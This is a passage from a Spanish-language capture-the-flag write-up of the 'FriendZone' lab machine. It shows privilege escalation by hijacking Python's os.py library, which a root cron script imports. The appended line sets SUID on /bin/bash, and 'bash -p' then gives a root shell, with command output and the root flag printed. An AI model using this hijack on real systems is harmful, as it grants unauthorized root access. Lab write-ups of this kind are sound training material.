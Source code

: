 ```python
www-data@FriendZone:/tmp$ cat /opt/server_admin/reporter.py
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer


```

Muy bien ahora se me ocurre viendo que busca ejecutar el **comando** `os` a nivel de sistema puedo probar a realizar un `Library Hijacking`.
Entonces editaremos el archivo `os.py` que se encuentra en la ruta `/usr/lib/python2.7/os.py` y añadiremos al final lo siguiente.

```bash
system("chmod 4755 /bin/bash")

```

Ahora esperaremos hasta que la tarea `CRON` se ejecute y nos ponga el permiso **SUID** a la `/bin/bash`.

```bash
www-data@FriendZone:/tmp$ ls -l /bin/bash 
-rwsr-xr-x 1 root root 1113504 Apr  4  2018 /bin/bash

```

Perfecto se ha ejecutado la tarea `CRON` y nos ha funcionado nuestro comando. Ahora ejecutamos el comando `bash -p` para obtener el root.

```bash
www-data@FriendZone:/tmp$ bash -p
bash-4.4# whoami
root

```

Y genial! Hemos **comprometido** la maquina y **escalado privilegios**.
Ahora podemos ir al directorio `/root` y visualizar la **flag** de **root**

```bash
bash-4.4# cat root.txt 
b0e6c60b82cf96e9855ac1656a9e90c7

```
